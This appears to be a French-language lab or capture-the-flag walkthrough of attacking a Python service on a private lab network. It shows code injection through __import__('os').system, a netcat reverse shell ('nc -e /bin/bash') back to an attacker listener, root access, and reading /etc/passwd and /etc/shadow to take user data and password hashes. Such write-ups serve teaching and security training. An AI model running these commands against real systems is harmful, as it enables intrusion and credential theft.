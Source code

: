 ```bash
> nc 10.1.1.100 13337
__import__("os").system("ping -c 4 10.1.1.17")
```

Avec Wireshark, on reçoit bien les 4 pings !

🔑 **Okè héhé, on a de l'injection de code.**

## 4. Exploit

Une fois qu'on a de l'injection, on sait qu'une belle route se dessine devant nous.

Bon déjà, c'est chiant de devoir faire une connexion `nc` pour taper chaque commande. Puis comment je fais pour avoir le retour des commandes ? La merde.

S'il y a injection, y'a fort à parier qu'on peut exécuter un *reverse shell* et ainsi avoir (presque) un vrai shell sur la machine plutôt que lancer `nc` pour exécuter une commande, et ne pas avoir le résultat.

Let's go, essayons d'injecter un reverse shell :

- **étape 1** : lancer un ptit `nc` en écoute sur une machine qu'on contrôle

```bash
# sur la machine de l'attaquant
$ nc -lvp 9999
```

- **étape 2** : injecter le reverse shell sur le serveur

```bash
# on se co au serveur avec nc et on injecte le reverse shell
# l'idée : on lance un shell (bash) et on "accroche" l'entrée et la sortie à une session TCP
# concrètement : le serveur se co à l'attaquant et lui propose un shell
> nc 10.1.1.100 13337
__import__("os").system("nc -e /bin/bash 10.1.1.17 9999")
```

- **étape 3** : retourner sur le `nc` en listen

```bash
# sur la machine de l'attaquant
$ nc -lvp 9999

# on a un shell sur le serveur ici
whoami
root
```

🔑 **Ok j'ai un shell sur la machine qui héberge l'app**

## 5. Post-exploit

Maintenant qu'on a un shell, baladons-nous...

```bash
whoami
root
# mouahaha intéressant, on est root

# bon bah déjà, on commence par voler...
## la liste des users et leurs infos
cat /etc/passwd
[...]

## les hashes des passwords des users
cat /etc/shadow
[...]

# et on se balade un peu
```